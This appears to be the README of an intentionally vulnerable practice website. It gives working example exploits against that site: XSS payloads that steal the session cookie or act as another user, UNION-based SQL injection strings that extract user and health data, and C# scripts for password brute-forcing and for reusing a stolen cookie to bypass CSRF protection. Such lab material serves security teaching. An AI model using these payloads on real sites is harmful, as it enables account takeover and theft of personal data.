 # Insecure Website
An intentionally insecure website to play around with and learn web security best practices.

## Example exploits

### XSS and CSRF (rendered on victims website, cookie is retrieved and sent to the attacker)

````javascript
<script>cookieStore.get('.AspNetCore.Cookies').then((r) => {
    var url = "https://hackmecashiesapp.azurewebsites.net/Messenger/SendMessage";
    var xhr = new XMLHttpRequest();
    xhr.open('POST', url, true);
    xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    xhr.send('OtherUser=qwe&Message=' + r.value);
});</script>
````

### XSS (force logout)

````javascript
<script>cookieStore.delete('.AspNetCore.Cookies'); location.reload();</script>
````

### XSS (send message as another user)

````javascript
<script>document.SendMessageForm.OtherUser.value = "qwe";document.SendMessageForm.Message.value = "a message that was actually sent from someone else";document.SendMessageForm.submit()</script>
````

### SQL Injection (discovery of tables, retrieving sensitive info)

- `' or 1=0) union select TABLE_NAME, DoesntMatter1 = '', DoesntMatter2 = '' from information_schema.tables where table_type = 'base table'--`
- `' or 1=0) union select COLUMN_NAME, DoesntMatter1 = '', DoesntMatter2 = '' from information_schema.columns where table_name = 'User'--  `
- `' or 1=0) union select Username, DoesntMatter1 = '', DoesntMatter2 = '' from [User]--`
- `' or 1=0) union select Username, cast(DateOfBirth as varchar), HealthIdentifier from [User]--`

### Brute force password (very basic, just expecting 3 character long passwords)

````csharp
var chars = "abcdefghijklmnopqrstuvwxyz";
var httpClientHandler = new HttpClientHandler();
httpClientHandler.ServerCertificateCustomValidationCallback = (message, certificate2, arg3, arg4) => true; // for local website
var httpClient = new HttpClient(httpClientHandler);

for (int i = 0; i < chars.Length; i++)
{
    for (int j = 0; j < chars.Length; j++)
    {
        for (int k = 0; k < chars.Length; k++)
        {
            var password = $"{chars[i]}{chars[j]}{chars[k]}".Dump();
            var input = new Dictionary<string, string>()
            {
                {"Username", "qwe"},
                {"Password", password}
            };

            var requestContent = new FormUrlEncodedContent(input);
            var response = await httpClient.PostAsync("https://localhost:7132/Account/Login", requestContent);
            var responseContent = await response.Content.ReadAsStringAsync();
            if (responseContent.Contains("and welcome to your profile"))
            {
                $"Success! found password: {password}".Dump();
            }
        }
    }
}
````

### Perform 'change password' as user programatically (once auth cookie has been retrieved)

````csharp
var authCookie = "";
var domain = "";
var httpClientHandler = new HttpClientHandler();
var cookie = new Cookie(".AspNetCore.Cookies", authCookie, "/", domain);
httpClientHandler.CookieContainer.Add(cookie);
var httpClient = new HttpClient(httpClientHandler);

// Change password
var input = new Dictionary<string, string>()
{
   {"Password", "random"}
};
var requestContent = new FormUrlEncodedContent(input);
var response = await httpClient.PostAsync($"https://{domain}/Profile/ChangePassword", requestContent);
var responseContent = await response.Content.ReadAsStringAsync();
responseContent.Dump();
response.Dump();
````

### Perform 'public board send message' as user programatically (once auth cookie has been retrieved, and even though it has CSRF protection)

````csharp
var authCookie = "";
var domain = "";
var httpClientHandler = new HttpClientHandler();
var cookie = new Cookie(".AspNetCore.Cookies", authCookie, "/", domain);
httpClientHandler.CookieContainer.Add(cookie);
var httpClient = new HttpClient(httpClientHandler);

// Post on public board, need to parse out anti forgery token for form
var publicBoardResponse = await httpClient.GetAsync($"https://{domain}/PublicBoard");
var publicBoardContent = await publicBoardResponse.Content.ReadAsStringAsync();
var startString = "__RequestVerificationToken\" type=\"hidden\" value=\"";
var start = publicBoardContent.IndexOf(startString) + startString.Length;
var end = publicBoardContent.IndexOf("\" />", start);
var formAntiForgeryToken = publicBoardContent.Substring(start, end - start).Dump();

// Should be included automatically as part of the handlers cookie store
//var antiforgeryCookie = publicBoardResponse.Headers.Single(x => x.Key == "Set-Cookie").Value.Single(x => x.StartsWith(".AspNetCore.Antifo"));

var input = new Dictionary<string, string>()
{
    {"Message", "random messsage after i stole an auth cookie"},
    {"__RequestVerificationToken", formAntiForgeryToken}
};

var requestContent = new FormUrlEncodedContent(input);
var response = await httpClient.PostAsync($"https://{domain}/PublicBoard/SendMessage", requestContent);
var responseContent = await response.Content.ReadAsStringAsync();
responseContent.Dump();
response.Dump();
````
